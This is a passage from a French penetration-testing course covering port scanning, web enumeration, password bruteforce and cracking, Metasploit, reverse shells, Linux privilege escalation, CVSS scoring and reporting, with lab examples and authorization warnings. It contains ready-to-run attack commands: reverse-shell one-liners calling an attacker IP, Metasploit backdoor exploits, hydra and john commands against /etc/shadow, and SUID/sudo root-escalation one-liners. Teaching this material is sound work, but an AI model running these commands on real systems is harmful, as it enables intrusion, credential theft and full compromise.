2. **Scan précis** : `nmap -p-` sur chaque cible pour confirmer l'état des 65 535 ports TCP.
3. **Détection de version** : `nmap -sV` sur les ports ouverts — bannière, produit, version, parfois OS et scripts.
4. **Scripts de service** : `nmap -sC` (scripts par défaut) pour détail (bannières, configs, utilisateurs) puis `--script vuln`.
5. **Analyse** : pour chaque port ouvert, noter service + version + état.

#### Outils

| Outil | Usage | Particularité |
| ----- | ----- | ------------- |
| `masscan` | Scan très rapide de gros réseaux | Nécessite root, très bruyant |
| RustScan | Scan rapide (écrit en Rust) | Se couple à `nmap` pour la version |
| `nmap` | Scan complet, furtif, versions, scripts | L'outil de référence |

#### Exemple réel

`sudo nmap -Pn -p- --min-rate 1000 192.168.56.10` révèle que seuls les ports 22, 21, 25, 80, 445 et 6200 sont ouverts — le port 6200 n'apparaît pas dans le scan des 1000 ports par défaut. `nmap -sV -p 21,6200` identifie `vsftpd 2.3.4` et un service sur 6200. Le port 6200 est précisément le port du backdoor vsftpd : la cartographie complète a trouvé l'angle d'attaque.

#### Bonnes pratiques

- Toujours `-p-` (tous les ports) avant de conclure à un scan « propre ».
- Compléter par `-sU` (UDP) si le contexte le justifie (temps long).
- Lancer `-sV` sur les ports ouverts uniquement (gain de temps).
- Sauvegarder avec `-oA` (formats normal, greppable, XML) pour le rapport.
- Ne pas oublier les ports atypiques : les pentesters les adorent.

#### Résumé

La cartographie relie chaque port à un service et une version. C'est la base de données sur laquelle reposent l'analyse (c) et l'exploitation (d).

---

### (h) L'énumération applicative

#### Définition

L'**énumération applicative** consiste à découvrir, sur les services web, les **répertoires**, **fichiers**, **technologies** et **CMS** (*Content Management System* : WordPress, Joomla, Drupal...) présents sur le serveur.

#### Pourquoi

Les pages d'administration, les fichiers de sauvegarde, les répertoires oubliés sont des cibles idéales : souvent non protégés, ils exposent des fonctionnalités sensibles ou des données. Les technologies identifiées (version d'un CMS, plugins) pointent vers des CVE connues. L'énumération révèle ce que le développeur a cru cacher — et qu'il n'a pas caché.

> 🍳 **Analogie :** le site web est la vitrine du magasin. L'énumération, c'est
> ouvrir toutes les portes de service : l'entrée de livraison, la réserve, le
> bureau de l'administrateur. Le propriétaire a verrouillé la vitrine, mais
> parfois pas la réserve.

#### Déroulement

1. **Identification des technologies** : `whatweb` (headers, cookies, frameworks), `nmap --script http-enum`, analyse des en-têtes HTTP.
2. **Énumération de répertoires** : `gobuster dir` ou `ffuf` avec une wordlist de chemins (`dirb/common.txt`, `directory-list-2.3-medium.txt`).
3. **Détection CMS** : `wpscan` (WordPress), `joomscan`, `cmseek`, `droopescan` selon le CMS identifié.
4. **Scan de sécurité de base** : `nikto` (très bavard — à confirmer manuellement).
5. **Analyse des fichiers trouvés** : robots.txt, fichiers de sauvegarde (.bak, .zip), fichiers de config exposés, APIs.

#### Outils

| Outil | Usage |
| ----- | ----- |
| `whatweb` | Identification des technologies web |
| `gobuster dir` | Énumération de répertoires |
| `ffuf` | Fuzzing rapide de chemins, paramètres, vhosts |
| `wpscan` | Audit de sites WordPress (plugins, users, vulns) |
| `nikto` | Scan de sécurité web automatisé |
| `nmap --script http-enum` | Énumération web intégrée à nmap |
| Burp Suite / ZAP | Proxy + outillage manuel (niveau 4-5) |

#### Exemple réel

`gobuster dir -u http://192.168.56.10 -w /usr/share/wordlists/dirb/common.txt` retourne `/admin`, `/backup`, `/phpmyadmin`. Le dossier `/backup` contient un `db_backup.sql` : le pentester vient de trouver une sauvegarde de base de données avec des hashs de mots de passe — c'est le chaînon qui manquait pour aller plus loin.

#### Bonnes pratiques

- Utiliser des wordlists adaptées (courtes pour la vitesse, longues pour la complétude — voir Cheat Sheet).
- Croiser `gobuster`/`ffuf` et les scripts nmap : les outils se complètent.
- Vérifier chaque réponse (statut, taille) pour éviter les faux positifs (certains serveurs répondent 200 sur tout).
- Ne jamais exécuter les fichiers trouvés ni télécharger de données personnelles : documenter et passer.

#### Résumé

L'énumération applicative dévoile les pages cachées, les technologies et les fichiers exposés. Elle transforme un simple serveur web en liste de cibles applicatives.

---

### (i) Le bruteforce de mots de passe

#### Définition

Le **bruteforce en ligne** consiste à tester des combinaisons utilisateur/mot de passe directement sur un service (SSH, FTP, web, RDP) avec des outils comme `hydra`. On parle aussi d'**attaque par dictionnaire** (si on utilise une wordlist) ou de **guessing** (essais successifs).

#### Pourquoi

Beaucoup de comptes ont des mots de passe faibles, par défaut ou réutilisés. Contrairement au cracking hors-ligne (section j), le bruteforce en ligne n'utilise aucune faille : il profite de l'authentification elle-même. C'est une attaque très répandue et souvent efficace — mais **bruyante** : chaque essai génère des logs, et les systèmes de protection (rate limiting, verrouillage de compte) peuvent la bloquer.

> 🍳 **Analogie :** le bruteforce en ligne, c'est sonner à la porte d'entrée
> en essayant toutes les clés du trousseau, une par une, devant la caméra.
> Ça peut marcher, mais ça fait du bruit et le voisin (le SOC — *Security
> Operations Center*) peut appeler la police. Le cracking hors-ligne, c'est
> voler une copie du trousseau (le hash) et l'essayer tranquillement chez soi.

#### Déroulement

1. **Préparation** : wordlists d'utilisateurs et de mots de passe (SecLists, rockyou), parfois personnalisées (recon : noms des employés).
2. **Choix de la cible** : service exposé sans protection anti-bruteforce (ou dans le cadre autorisé).
3. **Lancement** : `hydra` avec le bon module de service.
4. **Réglage de l'intensité** : nombre de tâches parallèles (`-t`), délais (`-w`), arrêt au premier succès (`-f`).
5. **Confirmation** : le mot de passe trouvé est-il toujours valide ? (se reconnecter proprement).
6. **Documentation** : comptes testés, succès, volumes.

#### Types d'attaques de mot de passe

| Type | En ligne ? | Description |
| ---- | ---------- | ----------- |
| Bruteforce pur | Oui | Tester toutes les combinaisons possibles (rarement utile) |
| Attaque par dictionnaire | Oui | Tester les mots d'une wordlist |
| Attaque hybride | Oui | Dictionnaire + petites variations (« password », « Password1 ») |
| **Password spraying** | Oui | Peu de mots de passe courants sur BEAUCOUP de comptes (discret) |
| Cracking hors-ligne | Non | Attaquer le hash chez soi (section j) |
| Règles de transformation | Non | Règles john/hashcat appliquées à une wordlist |

#### Outils

| Outil | Usage |
| ----- | ----- |
| `hydra` | Bruteforce en ligne : SSH, FTP, HTTP(S), RDP, SMB, etc. |
| `medusa` | Alternative à hydra |
| `ncrack` | Bruteforce réseau (proche de hydra) |
| Burp Suite Intruder | Bruteforce web paramétré (niveau 4-5) |
| `crackmapexec` | Test de comptes sur SMB/winrm (niveau 9) |

#### Exemple réel

Sur une VM de labo, `hydra -l msfadmin -P /usr/share/wordlists/rockyou.txt ssh://192.168.56.10 -t 4 -f` retrouve le mot de passe `msfadmin` du compte par défaut en quelques secondes. Dans un vrai engagement, cette technique est souvent interdite ou limitée par les règles d'engagement : le bruteforce peut verrouiller des comptes de production — un dégât réel.

#### Bonnes pratiques

- Vérifier que le bruteforce est **autorisé** dans les RoE.
- Commencer par les combinaisons probables (mots de passe par défaut, noms de l'entreprise) avant les longues wordlists.
- Utiliser `-f` pour s'arrêter au premier résultat et limiter le bruit.
- Se méfier du **rate limiting** et du verrouillage de comptes.
- En cas de doute sur la tolérance du système, réduire `-t` et augmenter les délais.

#### Résumé

Le bruteforce en ligne teste des mots de passe directement sur un service. Efficace contre les comptes faibles, mais bruyant, lent et souvent encadré : on l'utilise avec parcimonie et autorisation.

---

### (j) Le cracking de mots de passe (hors-ligne)

#### Définition

Le **cracking hors-ligne** consiste à récupérer un **hash** de mot de passe (empreinte chiffrée) et à essayer des candidats, à grande vitesse, sur ta propre machine. Les outils de référence sont **John the Ripper** (`john`) et **hashcat**.

#### Pourquoi

Un mot de passe n'est jamais stocké en clair : seul son **hash** est enregistré (par ex. MD5, SHA-1, bcrypt, sha512crypt). Si tu obtiens un fichier de hashs (`/etc/shadow`, base de données, sauvegarde), tu peux essayer des milliards de candidats par seconde, sans toucher la cible et sans faire de bruit. Contrairement au bruteforce en ligne, le cracking hors-ligne ne laisse **aucune trace** chez la cible — c'est la différence fondamentale avec la section (i).

> 🍳 **Analogie :** le service garde le trousseau en lieu sûr (en ligne,
> section i). Mais parfois, tu trouves une copie du trousseau oubliée au fond
> d'un tiroir (le hash). Tu rentres chez toi, tu essaies tes clés
> tranquillement, à l'infini, sans que personne ne te voie. C'est ça, le
> cracking hors-ligne.

#### Déroulement

1. **Collecte du hash** : `/etc/shadow`, bases de données, sauvegardes, captures réseau (hashs WPA), fichiers d'archive protégés (`zip2john`).
2. **Identification du format** : `john` sait le faire automatiquement ; pour hashcat, il faut choisir le `-m` (mode). Indices : préfixe `$1$` (MD5 crypt), `$6$` (SHA-512 crypt), `$2a$`/`$2b$` (bcrypt).
3. **Choix de la stratégie** : - Wordlist (`-a 0`) : les mots de passe courants (rockyou, SecLists). - Wordlist + règles : variations (« password », « Password1 »...). - Masque (`-a 3`) : bruteforce par motifs (`?l?l?l?l?l`). - `john --incremental` : recherche intelligente.
4. **Exécution** : CPU (`john`) ou GPU (`hashcat -d`).
5. **Analyse** : résultats, statistiques (cracks/seconde), mots de passe réutilisés entre comptes.

#### Formats de hash courants

| Algorithme | Préfixe / exemple | Mode hashcat | Usage typique |
| ---------- | ----------------- | ------------ | ------------- |
| MD5 | `5f4dcc3b5aa765d61d8327deb882cf99` | `-m 0` | Bases de données, applicatifs |
| SHA-1 | `5baa61e4c9b93f3f0682250b6cf8331b7ee68fd8` | `-m 100` | Anciens systèmes |
| SHA-256 | `8c6976e5b5410415bde908bd4dee15dfb` | `-m 1400` | Divers |
| MD5 crypt | `$1$xxxx...` | `-m 500` | Unix ancien |
| SHA-512 crypt | `$6$xxxx...` | `-m 1800` | `/etc/shadow` Linux moderne |
| bcrypt | `$2a$10$...` | `-m 3200` | Applications modernes (lent) |
| NTLM | hash 32 hex | `-m 1000` | Windows (niveau 9) |
| WPA-PBKDF2 | capture `.cap`/`.hc22000` | `-m 22000` | Réseaux Wi-Fi |

#### Outils

| Outil | Usage | Particularité |
| ----- | ----- | ------------- |
| `john` | Cracking polyvalent, auto-détection du format | Excellent pour débuter |
| `hashcat` | Cracking accéléré **GPU** | Le plus rapide, modes `-m` et attaques `-a` |
| `hashcat --show` | Afficher les résultats déjà crackés | — |
| `zip2john`, `ssh2john`, `keepass2john` | Convertir des fichiers protégés en hashs crackables | Fournis avec john |
| `crackstation` / `hashes.org` | Services en ligne | À éviter pour des données sensibles : préférer le hors-ligne |

#### Exemple réel

Lors d'un test, tu lis `/etc/shadow` d'une VM : la ligne de `root` contient `$6$...` (SHA-512 crypt). Tu copies le hash dans `hash.txt`, puis `john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt`. En quelques secondes, john affiche le mot de passe en clair. Sur une base volée avec des hashs MD5, `hashcat -m 0` débitera des millions d'essais par seconde.

#### Bonnes pratiques

- **Identifier le format avant de lancer** (le bon mode, sinon perte de temps).
- Commencer par la wordlist + règles avant le bruteforce pur.
- Avec hashcat, vérifier la disponibilité du GPU (`hashcat --list-devices`) et utiliser `--status` pour suivre l'avancement.
- Un hash lent (bcrypt) avec une petite wordlist vaut mieux qu'un bruteforce infini.
- Ne jamais envoyer de hashs réels vers des services en ligne : c'est une fuite de données.

#### Résumé

Le cracking hors-ligne attaque le hash, pas le service : rapide, silencieux, puissant. `john` pour commencer, `hashcat` pour la puissance, et toujours la bonne wordlist pour finir vite.

---

### (k) Metasploit Framework

#### Définition

**Metasploit Framework** est un framework d'exploitation structuré. `msfconsole` est son interface principale. Il regroupe des **modules** : exploits, auxiliaires (scanners, énumération), payloads (charges utiles), post-modules (post-exploitation) et encodeurs.

#### Pourquoi

Metasploit centralise ce qui, sinon, serait mille scripts à gérer : recherche d'exploits, configuration (`set`), exécution, gestion de sessions. Il fournit surtout des **payloads fiables** (notamment **Meterpreter**, un payload avancé qui offre shell, upload/download, capture d'écran, migrations) et des **auxiliaires** pour scanner et énumérer. C'est l'outil standard de l'industrie — mais pas une baguette magique : il faut comprendre ce qu'il fait et vérifier ses résultats.

> 🍳 **Analogie :** Metasploit, c'est une **boîte à outils complète** du
> serrurier : chaque serrure connue a sa clé (l'exploit), chaque clé a un
> guide (le payload). Tu choisis la clé, tu règles la poignée (`RHOSTS`), tu
> tournes. Mais une boîte à outils ne remplace pas le serrurier : sans
> méthode, tu utilises la mauvaise clé sur la mauvaise porte.

#### Déroulement

1. **Démarrage** : `msfconsole`, puis `msfdb init` / `msfdb run` (base de données pour `db_nmap`, `hosts`, `vulns`).
2. **Recherche** : `search vsftpd`, `search ssh`.
3. **Sélection** : `use exploit/unix/ftp/vsftpd_234_backdoor`.
4. **Configuration** : `show options`, `set RHOSTS 192.168.56.10`, `set LHOST 192.168.56.1` (pour les reverse payloads), `show payloads`, `set PAYLOAD cmd/unix/reverse_bash`...
5. **Exécution** : `run` ou `exploit`.
6. **Sessions** : `sessions -l`, `sessions -i 1`, `background`, `sessions -u 1` (upgrade en Meterpreter quand compatible).
7. **Génération de payloads** : `msfvenom` (indépendant de msfconsole) pour créer des fichiers binaires ou des one-liners à exécuter sur la cible.

#### Modules et payloads réels (à retenir)

| Type | Exemple | Usage |
| ---- | ------- | ----- |
| Exploit | `exploit/unix/ftp/vsftpd_234_backdoor` | Backdoor vsftpd 2.3.4 |
| Exploit | `exploit/unix/irc/unreal_ircd_3281_backdoor` | Backdoor UnrealIRCd 3.2.8.1 |
| Exploit | `exploit/multi/samba/usermap_script` | Samba usermap_script |
| Exploit | `exploit/multi/http/tomcat_mgr_upload` | Upload via manager Tomcat |
| Handler | `exploit/multi/handler` | Écoute d'un reverse payload |
| Auxiliary | `auxiliary/scanner/portscan/tcp` | Scan de ports |
| Auxiliary | `auxiliary/scanner/ssh/ssh_login` | Test d'identifiants SSH |
| Auxiliary | `auxiliary/scanner/http/http_version` | Version HTTP |
| Auxiliary | `auxiliary/scanner/smb/smb_version` | Version SMB |
| Post | `post/multi/recon/local_exploit_suggester` | Suggestion d'exploits locaux |
| Payload | `linux/x64/meterpreter/reverse_tcp` | Meterpreter reverse (Linux 64 bits) |
| Payload | `windows/x64/meterpreter/reverse_tcp` | Meterpreter reverse (Windows) |
| Payload | `cmd/unix/reverse_bash` | Shell bash reverse (Linux) |
| Payload | `python/meterpreter/reverse_tcp` | Meterpreter via Python |

#### Exemple réel

L'analyse (c) a montré vsftpd 2.3.4. En msfconsole : `search vsftpd` → `use exploit/unix/ftp/vsftpd_234_backdoor` → `set RHOSTS 192.168.56.10` → `run`. Une session shell s'ouvre sur la machine cible (`id` confirme l'accès). Preuve : `sysinfo`, `getuid` (si Meterpreter), capture d'écran.

#### Bonnes pratiques

- Vérifier que le module et la cible correspondent (versions !).
- Toujours `show options` avant `run` : un `RHOSTS` oublié, c'est un exploit lancé sur rien ou sur le mauvais réseau.
- Comprendre le payload avant de l'utiliser (reverse vs bind, port, hôte).
- En labo, isoler les machines (réseau host-only) — Metasploit est très bruyant.
- Ne pas lancer d'exploit destructeur « juste pour voir ».

#### Résumé

Metasploit structure l'exploitation : recherche, configuration, exécution, sessions et génération de payloads. Un outil puissant qui s'utilise avec la méthode et la compréhension de ce qu'il fait.

---

### (l) Les reverse shells et bind shells

#### Définition

Un **shell** est une interface de commandes. Une **reverse shell** fait se connecter la cible **vers toi** (la cible initie la connexion). Un **bind shell** fait écouter la cible sur un port, et tu t'y connectes. On les obtient avec `netcat`, `socat`, des one-liners Python/Bash, ou des payloads Metasploit.

#### Pourquoi

Le but de l'exploitation est d'obtenir un shell sur la cible. Mais souvent, la cible est derrière un pare-feu : elle peut sortir (vers toi), mais on ne peut pas entrer vers elle. La **reverse shell** contourne les pare-feu entrants : c'est la cible qui ouvre la connexion vers ton poste, sur un port que tu écoutes. C'est de loin la technique la plus utilisée.

> 🍳 **Analogie :** le bind shell, c'est la cible qui **ouvre une porte** et
> t'attend ; la reverse shell, c'est la cible qui **sort de chez elle** et
> vient frapper chez toi. Si la police (le pare-feu) surveille la porte
> d'entrée de la cible mais pas ses sorties, la reverse shell passe.

#### Schéma mental

```
BIND SHELL                          REVERSE SHELL
Cible : écoute sur port 4444        Cible : appelle ton IP:4444
Attaquant : nc <cible> 4444         Attaquant : nc -lvnp 4444
(le pare-feu de la cible peut        (le pare-feu de la cible laisse
 bloquer l'entrée)                   sortir le trafic = ça marche souvent)
```

#### Déroulement (reverse shell classique)

1. **Côté attaquant** : ouvrir un écouteur `nc -lvnp 4444`.
2. **Côté cible** : exécuter une commande qui établit la connexion et lance un shell (one-liner).
3. **Stabilisation** : le shell obtenu est souvent « sale » (pas de TTY complet, pas de `clear`, pas de `su`). On le stabilise avec Python : `python3 -c 'import pty; pty.spawn("/bin/bash")'`, puis `export TERM=xterm`, puis Ctrl+Z, `stty raw -echo; fg`, puis `stty rows 40 cols 80` (ou `reset`).

#### One-liners réels (côté cible)

```bash
# Bash
bash -i >& /dev/tcp/10.0.0.5/4444 0>&1

# Netcat (si nc -e est supporté)
nc -e /bin/sh 10.0.0.5 4444

# Python 3
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.5",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'

# Socat
socat TCP:10.0.0.5:4444 EXEC:/bin/sh,pty,stderr,setsid,sigint,sane
```

#### Outils

| Outil | Côté attaquant | Côté cible |
| ----- | -------------- | ---------- |
| `netcat` (`nc`) | `nc -lvnp 4444` | `nc -e /bin/sh 10.0.0.5 4444` (variante OpenBSD) |
| `socat` | `socat TCP-LISTEN:4444,reuseaddr,fork` | `socat TCP:10.0.0.5:4444 EXEC:/bin/sh,pty,stderr,setsid,sigint,sane` |
| Bash | — | `bash -i >& /dev/tcp/...` |
| Python | — | one-liner `python3 -c '...'` |
| Metasploit | `exploit/multi/handler` | payload reverse (`linux/x64/shell_reverse_tcp`) |

#### Exemple réel

Via une injection de commande dans une appli web de labo, tu exécutes `nc -e /bin/sh 10.0.0.5 4444` alors que ton poste écoute sur 4444. Le shell s'ouvre. Tu le stabilises (`python3 -c 'import pty;pty.spawn("/bin/bash")'`, `export TERM=xterm`, Ctrl+Z, `stty raw -echo; fg`). Tu peux maintenant lancer `sudo -l` et explorer proprement.

#### Bonnes pratiques

- Toujours `-lvnp` (listen, verbose, no DNS, port) pour l'écouteur.
- Choisir un port d'écoute qui passe les filtres (443, 80 sortants...).
- Stabiliser immédiatement le shell avant toute exploration.
- Préférer `socat` ou `nc` de la cible si disponibles ; sinon Bash/Python.
- Ne pas lancer de reverse shell sur des machines hors de ton labo ou du scope autorisé.

#### Résumé

Reverse shell : la cible appelle toi (passe les pare-feu entrants). Bind shell : tu appelles la cible (bloqué plus souvent). `netcat`, `socat`, Bash, Python, Metasploit — cinq façons de les obtenir, une règle : stabilise avant d'explorer.

---

### (m) L'escalade de privilèges Linux

#### Définition

L'**escalade de privilèges** (LPE — *Local Privilege Escalation*) consiste à passer d'un utilisateur à un autre, le plus souvent de l'utilisateur courant à **root**. On distingue l'escalade **verticale** (devenir root) et **horizontale** (devenir un autre utilisateur).

#### Pourquoi

Un premier accès se fait souvent avec un compte limité (`www-data`, `apache`, un utilisateur applicatif). La valeur de la compromission dépend de ce qu'on peut lire et faire. Passer root, c'est le contrôle total : tout lire (mais aussi tout casser), et c'est l'impact maximal à documenter dans le rapport. C'est aussi l'épreuve reine des CTF et des machines d'entraînement.

> 🍳 **Analogie :** tu es entré dans l'immeuble comme livreur (utilisateur
> limité). L'escalade, c'est trouver une clé qui ouvre le local technique,
> puis celle du bureau du directeur, puis celle du coffre. Souvent, une seule
> clé (une mauvaise configuration) ouvre tout.

#### Déroulement

1. **Énumération systématique** : lancer `linpeas.sh` (ou faire l'énumération manuelle), puis cibler les familles classiques ci-dessous.
2. **Vérification manuelle** : chaque découverte est confirmée à la main.
3. **Exploitation** : utiliser GTFOBins (la référence des binaires abusables) pour les binaires SUID/sudo, les droits cron, les capabilities, ou un exploit de noyau.
4. **Preuve** : `id`, `whoami`, `cat /etc/shadow` (en lecture autorisée en labo), capture.

#### Les familles classiques de failles Linux

| Famille | Comment la détecter | Exemple d'exploitation |
| ------- | ------------------- | ---------------------- |
| **sudo** | `sudo -l` | Si `/usr/bin/vim` est exécutable en root sans mot de passe : `sudo vim -c ':!/bin/bash'` |
| **SUID** | `find / -perm -4000 -type f 2>/dev/null` | Binaire SUID `/usr/bin/find` : `/usr/bin/find . -exec /bin/sh -p \; -quit` (voir GTFOBins) |
| **cron** | `cat /etc/crontab`, `/etc/cron.d/*`, `ls /var/spool/cron/` | Script root exécuté toutes les minutes et **modifiable** par l'utilisateur |
| **Capabilities** | `getcap -r / 2>/dev/null` | `cap_setuid` sur `python3` : `python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'` |
| **Noyau** | `uname -a`, `cat /etc/os-release` | CVE-2016-5195 (Dirty COW), CVE-2022-0847 (Dirty Pipe) selon les versions |
| **Fichiers sensibles** | `.bash_history`, `/etc/passwd` lisible, sauvegardes | Mots de passe en clair, hashs dans `/etc/shadow` |
| **PATH / variables** | scripts appelant des commandes sans chemin complet | Détourner une commande via un `PATH` modifié |

#### Outils

| Outil | Usage |
| ----- | ----- |
| `linpeas.sh` | Énumération automatique complète (script portable) |
| `LinEnum.sh` | Énumération manuelle structurée |
| GTFOBins (gtfobins.github.io) | Référence : quels binaires abuser et comment |
| `uname -a`, `searchsploit` | Identifier un noyau vulnérable et chercher l'exploit |
| `find / -perm -4000`, `sudo -l`, `getcap` | Vérifications manuelles ciblées |
| Metasploit `post/multi/recon/local_exploit_suggester` | Suggestion d'exploits locaux |

#### Exemple réel

Sur une VM de labo, tu arrives en `www-data`. `linpeas.sh` met en évidence `/usr/bin/find` en SUID (mode `-rwsr-xr-x`, propriétaire root). GTFOBins indique : `find . -exec /bin/sh -p \; -quit`. Tu l'exécutes : shell root. `id` → `uid=0(root)`. Preuve capturée. Cette faille, c'est la petite clé qui ouvrait tout l'immeuble.

#### Bonnes pratiques

- Toujours commencer par `linpeas.sh` (ou l'énumération manuelle), jamais au hasard.
- Vérifier la version du noyau **avant** de chercher un exploit (les exploits de noyau peuvent planter la machine — en labo c'est acceptable, chez un client c'est un incident).
- Consulter GTFOBins pour chaque binaire SUID/sudo : la méthode y est.
- Croiser les familles : sudo + SUID + cron se cumulent.
- Noter chaque étape : l'escalade doit être reproductible dans le rapport.

#### Résumé

L'escalade de privilèges Linux passe par des mauvaises configurations (sudo, SUID, cron, capabilities), des fichiers sensibles, ou le noyau. `linpeas.sh` pour trouver, GTFOBins pour exploiter, capture pour prouver.

---

### (n) L'évaluation des risques CVSS

#### Définition

**CVSS** (*Common Vulnerability Scoring System*) est une échelle normalisée de 0 à 10 pour mesurer la gravité d'une vulnérabilité. La version actuelle est la **CVSS v3.1**. Le **base score** est calculé à partir de métriques d'impact et d'exploitabilité.

#### Pourquoi

Le CVSS donne un langage commun : « critique », « élevé », « moyen » sont définis par des bornes précises, pas par l'impression du pentester. Il permet de prioriser les corrections (les assureurs, les équipes techniques et les directions l'exigent) et de comparer des vulnérabilités entre elles. Attention cependant : CVSS mesure la **gravité technique** de la vulnérabilité, pas le **risque réel** pour l'entreprise (celui-ci dépend aussi du contexte : quel actif, quelle exposition, quel impact métier).

> 🍳 **Analogie :** CVSS, c'est le **barème de gravité d'un accident** : on note
> la nature de la blessure (impact), la facilité avec laquelle l'accident
> arrive (exploitabilité), si le blessé devait être là (privilèges requis,
> interaction utilisateur). Le médecin (l'entreprise) décide ensuite, avec le
> contexte, qui opérer en premier.

#### Les métriques du base score (CVSS v3.1)

| Groupe | Métrique | Code | Valeurs | Sens (le plus grave) |
| ------ | -------- | ---- | ------- | -------------------- |
| Exploitabilité | Attack Vector | **AV** | Network (N) > Adjacent (A) > Local (L) > Physical (P) | N = exploitable à distance |
| Exploitabilité | Attack Complexity | **AC** | Low (L), High (H) | L = facile |
| Exploitabilité | Privileges Required | **PR** | None (N), Low (L), High (H) | N = aucun droit requis |
| Exploitabilité | User Interaction | **UI** | None (N), Required (R) | N = pas d'action de la victime |
| Impact | Scope | **S** | Unchanged (U), Changed (C) | C = impact au-delà du composant |
| Impact | Confidentiality | **C** | High (H), Low (L), None (N) | H = données exposées |
| Impact | Integrity | **I** | High (H), Low (L), None (N) | H = données modifiées |
| Impact | Availability | **A** | High (H), Low (L), None (N) | H = service indisponible |

#### Échelles de sévérité

| Score CVSS v3.x | Sévérité |
| --------------- | -------- |
| 0.0 | None |
| 0.1 – 3.9 | Low |
| 4.0 – 6.9 | Medium |
| 7.0 – 8.9 | High |
| 9.0 – 10.0 | Critical |

#### Calcul simplifié du base score

Le calcul exact est une formule publiée (FIRST, *Forum of Incident Response and Security Teams*) : on combine un **Impact Sub-Score** (ISS) et une **Exploitability Score**, pondérés par le Scope, et on arrondit au dixième. On n'a pas besoin de la retenir par cœur : le site `www.first.org/cvss/calculator/3.1` la calcule. En revanche, il faut savoir **choisir les bonnes métriques**.

**Exemple pas à pas (RCE sur service exposé sur Internet) :** AV:N, AC:L, PR:N, UI:N, S:U, C:H, I:H, A:H.

1. ISS = 1 − [(1−C) × (1−I) × (1−A)] = 1 − (0,44 × 0,44 × 0,44) ≈ 0,915.
2. Impact (Scope U) = 6,42 × ISS ≈ 5,87.
3. Exploitability = 8,22 × AV × AC × PR × UI = 8,22 × 0,85 × 0,77 × 0,85 × 0,85 ≈ 3,89.
4. Base = min(Impact + Exploitability, 10) ≈ 9,76 → **9,8 → Critical**.

#### Outils

- Calculateur officiel : `www.first.org/cvss/calculator/3.1`.
- Le rapport peut aussi fournir la **chaîne vectorielle** : `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H`.

#### Exemple réel

Une SQLi sur une page publique, sans authentification, donnant lecture de la base : `AV:N, AC:L, PR:N, UI:N, S:U, C:H, I:N, A:N`. Le calculateur donne **9.1 (Critical)** : exploitable à distance, sans droit, impact de confidentialité total. Au contraire, un problème local de permissions (`AV:L, PR:L`) tombera à ~5 (Medium) : il compte dans le rapport, mais ne bloque pas le lancement en production.

#### Bonnes pratiques

- Remplir les métriques avec la **situation réelle** (l'actif est-il exposé sur Internet ? l'exploitation nécessite-t-elle des droits ?).
- Fournir le score ET la chaîne vectorielle dans le rapport.
- Compléter CVSS par le contexte métier : le risque réel (probabilité × impact) peut différer du score technique.
- Citer la version de CVSS utilisée (v3.1, pas v2).

#### Résumé

CVSS traduit une vulnérabilité en **score de 0 à 10** grâce à des métriques standardisées. À utiliser avec la chaîne vectorielle et le contexte, pour prioriser les corrections de façon objective.

---

### (o) Le rapport de pentest : structure et preuves

#### Définition

Le **rapport de pentest** est le document final qui décrit l'engagement, les résultats, les preuves et les recommandations. Structure standard : un rapport exécutif + un rapport technique + annexes.

#### Pourquoi

Le rapport est l'**unique livrable** qui reste au client. C'est lui qui est relu par la direction, l'auditeur, l'assureur, les équipes techniques. S'il est incomplet ou sans preuves, le travail d'exploitation perd toute valeur — et le client peut légitimement refuser le livrable (voir Cas réels n° 2).

> 🍳 **Analogie :** un détective qui trouve le coupable mais ne rapporte ni
> indices, ni photos, ni procès-verbal n'a résolu aucun procès. La preuve est
> le coeur du travail : chaque conclusion doit pouvoir être **re-vérifiée**.

#### Structure standard d'un rapport technique

| Bloc | Contenu |
| ---- | ------- |
| 1. Synthèse exécutive | Résumé non technique : objectifs, résultats, priorités |
| 2. Portée et méthodologie | Actifs testés, règles d'engagement, standards utilisés (PTES...) |
| 3. Synthèse des constats | Tableau : ID, titre, gravité (CVSS), nombre de constats par niveau |
| 4. Constats détaillés | Pour chaque constat : ID, gravité + chaîne CVSS, actifs, description, preuves de reproduction, impact, recommandations, références (CWE/CVE) |
| 5. Recommandations | Actions correctives priorisées (court/moyen/long terme) |
| 6. Annexes | Inventaire des actifs, outils, chronologie, captures brutes, POC |

#### Ce qu'est une « bonne preuve »

- **Reproductible** : les commandes exactes sont fournies.
- **Horodatée** : captures avec date/heure.
- **Vérifiable** : sortie de `id`, `whoami`, `nmap`, écran de `hydra`...
- **Minimale** : assez pour prouver, pas de données sensibles réelles copiées dans le rapport.
- **Croisée** : deux preuves valent mieux qu'une (sortie + capture).

#### Exemple réel

Constats d'un engagement type :

| ID | Titre | CVSS | Niveau |
| -- | ----- | ---- | ------ |
| V-01 | Backdoor vsftpd 2.3.4 — accès root | 9.8 | Critical |
| V-02 | Injection SQL sur /product.php | 9.1 | Critical |
| V-03 | Révélation de la version du serveur web | 5.3 | Medium |
| V-04 | Cookies de session sans attribut Secure | 5.3 | Medium |

Chaque ligne du détail contient : le POC (`use exploit/...`, `set RHOSTS`, `run`, sortie `id`), une capture, l'impact (« contrôle total du serveur, lecture de /etc/shadow »), et la correction (« mettre à jour vsftpd, bloquer le port »).

#### Bonnes pratiques

- Écrire le rapport **au fil de l'eau** (pendant l'engagement).
- Une structure identique pour chaque constat = lecture rapide.
- Ne pas fabriquer de preuves et ne pas exagérer la gravité.
- Faire relire par un pair avant d'envoyer au client.
- Proposer une session de **restitution** au client et un **re-test**.

#### Résumé

Le rapport = exécutif + technique + preuves reproductibles + CVSS + recommandations. C'est lui qui donne sa valeur au pentest — et c'est lui qui se défend face au client.

## Visualisation

> ⚠️ **Légal** : tous les schémas ci-dessous supposent un environnement
> autorisé (labo isolé, VM personnelles, périmètre contractuel). Un schéma ne
> remplace pas une autorisation écrite.

### Chronologie complète d'un pentest



### Cycle de vie d'un engagement (boucle PTES)



### Processus d'un scan nmap

```
                    SCAN NMAP MÉTHODIQUE
   ┌──────────────────────────────────────────────────────────────┐
   │ 1. DÉCOUVERTE      sudo nmap -sn 192.168.56.0/24            │
   │    → qui est vivant ? (réponses ARP / ICMP / TCP)             │
   └──────────────────────┬───────────────────────────────────────┘
                          ▼
   ┌──────────────────────────────────────────────────────────────┐
